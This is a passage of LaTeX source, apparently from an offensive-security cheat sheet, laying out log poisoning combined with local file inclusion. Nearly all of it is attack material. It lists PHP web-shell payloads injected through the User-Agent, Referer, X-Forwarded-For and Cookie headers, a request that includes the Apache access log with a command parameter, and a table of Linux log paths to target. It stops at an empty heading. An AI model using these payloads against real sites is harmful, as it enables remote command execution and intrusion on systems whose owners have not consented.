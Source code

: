 \documentclass[12pt]{article}
\begin{document}
\subsubsection{Step 1: Poison the Log}

Send a malicious User-Agent:

\begin{lstlisting}[language=bash]
User-Agent: <?php system($_GET['cmd']); ?>
\end{lstlisting}

Or inject via other HTTP headers:

\begin{lstlisting}
Referer: <?php system($_GET['cmd']); ?>
X-Forwarded-For: <?php system($_GET['cmd']); ?>
Cookie: <?php system($_GET['cmd']); ?>
\end{lstlisting}

\subsubsection{Step 2: Include the Log File}

\begin{lstlisting}
/index.php?page=/var/log/apache2/access.log&cmd=id
\end{lstlisting}

\subsubsection{Common Log Locations}

\begin{longtable}{|l|l|}
\hline
\textbf{Log File} & \textbf{Location} \\
\hline
Apache access log & /var/log/apache2/access.log \\
\hline
Apache error log & /var/log/apache2/error.log \\
\hline
Nginx access log & /var/log/nginx/access.log \\
\hline
Nginx error log & /var/log/nginx/error.log \\
\hline
SSH log & /var/log/auth.log \\
\hline
Mail log & /var/log/mail.log \\
\hline
Kernel log & /var/log/kern.log \\
\hline
\end{longtable}

\subsection{Session Poisoning}
\end{document}

